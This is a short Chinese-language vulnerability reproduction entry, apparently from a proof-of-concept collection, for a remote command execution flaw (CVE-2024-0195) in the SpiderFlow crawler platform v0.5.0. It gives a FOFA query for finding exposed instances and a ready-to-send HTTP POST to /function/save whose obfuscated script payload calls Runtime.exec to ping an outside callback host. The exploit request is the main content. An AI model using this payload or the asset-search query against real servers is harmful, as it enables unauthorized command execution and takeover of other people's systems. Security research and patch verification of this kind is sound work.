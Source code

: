 # SpiderFlow爬虫平台存在远程命令执行漏洞（CVE-2024-0195）

# 一、漏洞简介
SpiderFlow是新一代开源爬虫平台，以图形化方式定义爬虫流程，不写代码即可完成爬虫。基于springboot+layui开发的前后端不分离,也可以进行二次开发。该系统/function/save接口存在RCE漏洞，攻击者可以构造恶意命令远控服务器。

# 二、影响版本
+ SpiderFlow爬虫平台 v0.5.0

# 三、资产测绘
+ fofa`app="spiderflow"`
+ 特征

![1725588617253-d0956560-866d-4745-b3bf-b6c473dd9551.png](./img/OjWEtwl7z1fS0Qxs/1725588617253-d0956560-866d-4745-b3bf-b6c473dd9551-660786.png)

# 四、漏洞复现
```java
POST /function/save HTTP/1.1
Host: 
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 142

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+nccrflrlvu.yutu.eu.org')%3B%7B
```

![1725588674894-0c5cdc42-26f7-472d-9bd8-afb2199f8abf.png](./img/OjWEtwl7z1fS0Qxs/1725588674894-0c5cdc42-26f7-472d-9bd8-afb2199f8abf-550132.png)



> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/obeii8pkzzb4154z>